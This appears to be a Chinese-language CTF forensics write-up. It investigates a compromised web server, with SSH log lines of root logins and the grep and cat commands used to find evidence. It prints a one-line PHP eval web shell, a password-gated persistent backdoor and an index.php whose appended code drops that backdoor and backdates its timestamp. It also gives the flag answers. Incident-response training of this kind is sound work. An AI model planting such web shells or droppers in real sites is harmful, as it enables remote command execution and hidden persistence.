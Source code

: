 ```shell
Jun  6 07:04:06 ip-10-0-10-3 sshd[614]: Accepted password for root from 122.239.18.143 port 62737 ssh2
Aug  1 07:47:23 linux-rz sshd[7505]: Accepted password for root from 192.168.200.2 port 46563 ssh2
Aug  1 07:50:37 linux-rz sshd[7539]: Accepted password for root from 192.168.200.2 port 48070 ssh2
```

> $ cat /var/log/auth.log*|grep -a "Accept"

> **flag{4}**



## 一,web目录存在木马，请找到木马的密码提交

```shell
<?php eval($_POST[1]);?>
```

> $ cat 1.php

> **flag{1}**

## 二,服务器疑似存在不死马，请找到不死马的密码提交

```shell
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

> $ cat .shell.php

> **flag{hello}**

## 三,不死马是通过哪个文件生成的，请提交文件名

```shell
./index.php:$file = '/var/www/html/.shell.php';
./index.php:system('touch -m -d "2021-01-01 00:00:01" .shell.php');
```

> $ grep -r 'shell' .

```php
<?php
include('config.php');
include(SYS_ROOT.INC.'common.php');
$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');
if(substr($path, 0,1)=='/'){
        $path=substr($path,1);
}
$path = Base::safeword($path);
$ctrl=isset($_GET['action'])?$_GET['action']:'run';
if(isset($_GET['createprocess']))
{
        Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);
}else{
        Index::run($path);
}
$file = '/var/www/html/.shell.php';
$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';
file_put_contents($file, $code);
system('touch -m -d "2021-01-01 00:00:01" .shell.php');
usleep(3000);
?>
```

